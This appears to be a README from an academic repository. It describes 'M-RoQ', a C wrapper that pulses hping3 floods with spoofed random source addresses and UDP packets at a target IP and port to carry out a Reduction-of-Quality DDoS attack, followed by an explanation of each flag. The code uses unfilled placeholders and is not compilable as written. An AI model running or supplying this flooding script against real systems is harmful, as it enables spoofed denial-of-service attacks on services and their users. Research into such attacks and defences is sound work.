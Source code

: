 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the traffic of the Hping3 software sent towards the victim. The aim is that the sending traffic can act like the RoQ attack concept mode.       

#include <stdio.h><br>
#include <string.h><br>
#include <stdlib.h><br>
#include <time.h><br>
#include <unistd.h><br>
<br>
main()<br>
{<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while(<time in seconds>)<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;usleep(<time in miliseconds>);<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;time in seconds++;<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("killall -9 hping3");<br>
}<br>

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.<br>
<br>
Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process.<br> 
<br>
Authors:<br>
Vinícius de Miranda Rios<br>
Pedro R. M. Inácio<br>
Damien Magoni<br>
Mário M. Freire<br>
